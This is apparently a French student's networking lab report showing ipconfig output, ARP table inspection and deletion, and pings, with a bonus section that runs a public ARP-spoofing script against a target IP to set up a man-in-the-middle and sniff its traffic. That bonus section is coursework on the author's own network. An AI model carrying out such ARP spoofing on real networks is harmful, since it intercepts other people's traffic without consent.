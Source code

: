 

##### ❓ ️ Avant de continuer...

- affichez l'adresse MAC de votre carte WiFi !
```powershell
C:\Users\enzob>ipconfig /all

Carte réseau sans fil Wi-Fi :

   Description. . . . . . . . . . . . . . : Intel(R) Wi-Fi 6E AX211 160MHz
   Adresse physique . . . . . . . . . . . : FA-BB-C3-8E-EA-13
```

##### ❓ Affichez votre table ARP

- allez vous commencez à devenir grands, je vous donne pas la commande, demande à m'sieur internet !
```powershell
PS C:\Users\enzob> arp -a

Interface : 10.33.65.120 --- 0xe
  Adresse Internet      Adresse physique      Type
  10.33.65.63           44-af-28-c3-6a-9f     dynamique
  10.33.79.14           d4-d8-53-78-45-b0     dynamique
  10.33.79.254          7c-5a-1c-d3-d8-76     dynamique
  10.33.79.255          ff-ff-ff-ff-ff-ff     statique
  224.0.0.22            01-00-5e-00-00-16     statique
  224.0.0.251           01-00-5e-00-00-fb     statique
  224.0.0.252           01-00-5e-00-00-fc     statique
  239.255.255.250       01-00-5e-7f-ff-fa     statique
  255.255.255.255       ff-ff-ff-ff-ff-ff     statique
```


##### ❓ Déterminez l'adresse MAC de la passerelle du réseau de l'école

- la passerelle, vous connaissez son adresse IP normalement (cf TP1 ;) )
si vous avez un accès internet, votre PC a forcément l'adresse MAC de la passerelle dans sa table ARP

passerelle :
- IP : 10.33.79.254
- MAC : 7c-5a-1c-d3-d8-76

##### ❓ Supprimez la ligne qui concerne la passerelle

- une commande pour supprimer l'adresse MAC de votre table ARP

```powershell
PS C:\Windows\system32>  arp -d 10.33.79.14
```
- si vous ré-affichez votre table ARP, y'a des chances que ça revienne presque tout de suite !

##### ❓ Prouvez que vous avez supprimé la ligne dans la table ARP

en affichant la table ARP :

J'ai pour ce test supprimer mon collegue de ma table ARP ```10.33.79.14```
```powershell
PS C:\Users\enzob> arp -a

Interface : 10.33.65.120 --- 0xe
  Adresse Internet      Adresse physique      Type
  10.33.65.63           44-af-28-c3-6a-9f     dynamique
  10.33.79.254          7c-5a-1c-d3-d8-76     dynamique
  10.33.79.255          ff-ff-ff-ff-ff-ff     statique
  224.0.0.22            01-00-5e-00-00-16     statique
  224.0.0.251           01-00-5e-00-00-fb     statique
  224.0.0.252           01-00-5e-00-00-fc     statique
  239.255.255.250       01-00-5e-7f-ff-fa     statique
  255.255.255.255       ff-ff-ff-ff-ff-ff     statique
```

##### ❓ Wireshark

- capture (arp1.pcap) [arp1.pcap]

lancez une capture Wireshark, puis supprimez la ligne de la passerelle dans la table ARP pendant que la capture est en cours
la capture doit contenir uniquement 2 trames :

un ARP request que votre PC envoie pour apprendre l'adresse MAC de la passerelle
et la réponse



## 1. Basics

##### ❓ Déterminer

- pour la carte réseau impliquée dans le partage de connexion (carte WiFi ?)
- son adresse IP au sein du réseau local formé par le partage de co

```powershell
PS C:\Users\enzob> ipconfig

Carte réseau sans fil Wi-Fi :

   Suffixe DNS propre à la connexion. . . :
   Adresse IPv6 de liaison locale. . . . .: fe80::d106:7b93:2d6f:1a4c%14
   -> Adresse IPv4. . . . . . . . . . . . . .: 192.168.87.89
   Masque de sous-réseau. . . . . . . . . : 255.255.255.0
   -> Passerelle par défaut. . . . . . . . . : 192.168.87.203
```

son adresse MAC

```82-ea-80-64-7f-ae```

##### ❓ DIY

- Changer votre adresse IP 
```powershell
PS C:\Users\enzob> ipconfig

Carte réseau sans fil Wi-Fi :

   Suffixe DNS propre à la connexion. . . :
   Adresse IPv6 de liaison locale. . . . .: fe80::d106:7b93:2d6f:1a4c%14
   -> Adresse IPv4. . . . . . . . . . . . . .: 192.168.87.15
   Masque de sous-réseau. . . . . . . . . : 255.255.255.0
   Passerelle par défaut. . . . . . . . . : 192.168.87.203
```

##### ❓Pingz !

```powershell
PS C:\Users\enzob> ping 192.168.87.97

Envoi d’une requête 'Ping'  192.168.87.97 avec 32 octets de données :
Réponse de 192.168.87.97 : octets=32 temps=11 ms TTL=128
Réponse de 192.168.87.97 : octets=32 temps=5 ms TTL=128
Réponse de 192.168.87.97 : octets=32 temps=4 ms TTL=128
Réponse de 192.168.87.97 : octets=32 temps=7 ms TTL=128

Statistiques Ping pour 192.168.87.97:
    Paquets : envoyés = 4, reçus = 4, perdus = 0 (perte 0%),
Durée approximative des boucles en millisecondes :
    Minimum = 4ms, Maximum = 11ms, Moyenne = 6ms
```

```powershell
PS C:\Users\enzob> ping 192.168.87.34

Envoi d’une requête 'Ping'  192.168.87.34 avec 32 octets de données :
Réponse de 192.168.87.34 : octets=32 temps=12 ms TTL=128
Réponse de 192.168.87.34 : octets=32 temps=34 ms TTL=128
Réponse de 192.168.87.34 : octets=32 temps=7 ms TTL=128
Réponse de 192.168.87.34 : octets=32 temps=7 ms TTL=128

Statistiques Ping pour 192.168.87.34:
    Paquets : envoyés = 4, reçus = 4, perdus = 0 (perte 0%),
Durée approximative des boucles en millisecondes :
    Minimum = 7ms, Maximum = 34ms, Moyenne = 15ms
```

##### ❓ Affichez votre table ARP !

```powershell
PS C:\Users\enzob> arp -a

Interface : 192.168.87.15 --- 0xe
  Adresse Internet      Adresse physique      Type
  -> 192.168.87.34         c8-8a-9a-e6-33-1d     dynamique
  -> 192.168.87.97         74-13-ea-8e-bb-06     dynamique
  192.168.87.203        82-ea-80-64-7f-ae     dynamique
```

## Bonus

Pour ce travail j'ai utilisé 2 manières sur l'OS **KALI** !

##### ❓ Mettre en place un MITM

#### Ettercap :

En vraie, je vais juste donner un tuto, malgré tout, c'est sympa, on peut le faire avec toute ma maison.

https://www.youtube.com/watch?v=_44MLJMweig

#### Un script Python sur Github

Pour ce test, j'ai utilisé le dépôt " https://github.com/EONRaider/Arp-Spoofer "

Pour commencer je **clone** le Git
```bash
┌──(kali㉿kali)-[~/Desktop/test]
└─$ git clone https://github.com/EONRaider/Arp-Spoofer.git
Cloning into 'Arp-Spoofer'...
remote: Enumerating objects: 345, done.
remote: Counting objects: 100% (45/45), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 345 (delta 40), reused 36 (delta 36), pack-reused 300 (from 1)
Receiving objects: 100% (345/345), 85.35 KiB | 292.00 KiB/s, done.
Resolving deltas: 100% (209/209), done.
```

Une fois installer, je rentre dans mon dossier installer avec :
```bash
┌──(kali㉿kali)-[~/Desktop/test]
└─$ cd Arp-Spoofer
```

Pour trouver ma cible sur le réseau si je ne la connais pas, je peux utiliser [Nmap](https://www.varonis.com/fr/blog/nmap-commands) avant de s'attaquer à elle, mais ici, je connais déjà ma cible `192.168.51.171`.

Maintenant, que j'ai ma cible, je peux attaquer, ce script va automatiquement trouver ma passerelle, pour attaquer je n'est juste qu'à entrée `sudo python3 arpspoof.py [IP DE MA CIBLE] -f` en oublient pas de changer l'adresse IP de ma cible :

```bash
┌──(kali㉿kali)-[~/Desktop/test/Arp-Spoofer]
└─$ sudo python3 arpspoof.py 192.168.51.171 -f
[sudo] password for kali:

[>>>] ARP Spoofing configuration:
[+] IPv4 Forwarding .....................True
[+] Interface       .....................eth0
[+] Attacker MAC    ........08:00:27:ff:8e:e7
[+] Gateway IP      ............192.168.51.15
[+] Gateway MAC     ........82:ea:80:64:7f:ae
[+] Target IP       ...........192.168.51.171
[+] Target MAC      ........08:00:27:c2:7f:3b

[!] ARP packets ready. Execute the attack with these settings? (Y/N)
```

Ici, il a bien trouvé la passerelle et sont adresse mac, de même pour ma cible, j'appuie sur " Y " et je fait entrée pour confirmé :

```bash
[!] ARP packets ready. Execute the attack with these settings? (Y/N) y

[+] ARP Spoofing attack initiated. Press Ctrl-C to abort.
```
TADA ! ça marche !

Je peux maintenant ouvrir [wireshark](https://www.wireshark.org/docs/) dans ma VM Hôte pour voir tout les pâques envoyées par ma cible !
